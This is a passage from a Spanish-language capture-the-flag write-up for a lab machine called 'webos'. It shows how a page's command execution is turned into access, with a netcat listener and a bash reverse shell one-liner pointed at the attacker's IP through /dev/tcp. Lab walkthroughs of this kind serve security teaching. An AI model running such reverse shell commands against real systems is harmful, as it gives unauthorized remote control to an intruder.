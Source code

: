 Pero, se supone que esta página debería servir como una **WebShell**, cosa que no hace.

Si cambiamos el comando a cualquier otro, ese comando se ejecutará. Probemos con el comando **id**:

<p align="center">
<img src="/assets/images/THL-writeup-webos/Captura12.png">
</p>

Y si recargamos la página, el comando se ejecuta:

<p align="center">
<img src="/assets/images/THL-writeup-webos/Captura13.png">
</p>

Entonces, podemos modificarlo para agregar una **Reverse Shell**.

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Modifica el comando para agregar la **Reverse Shell**:
```bash
'bash -c "bash -i >& /dev/tcp/Tu_IP/443 0>&1"'
```

<p align="center">